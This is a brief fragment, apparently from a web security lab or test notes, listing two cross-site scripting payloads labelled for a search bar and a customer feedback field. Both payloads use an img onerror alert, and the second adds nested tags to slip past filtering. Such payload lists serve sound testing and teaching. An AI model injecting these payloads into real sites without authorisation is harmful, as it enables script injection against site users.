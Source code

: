1. Search bar:

   `<img src='1' onerror='alert(1)'>`

2. Customer feedback:

    `<<script<>img</img> src='1' onerror='alert(1)'></img>`
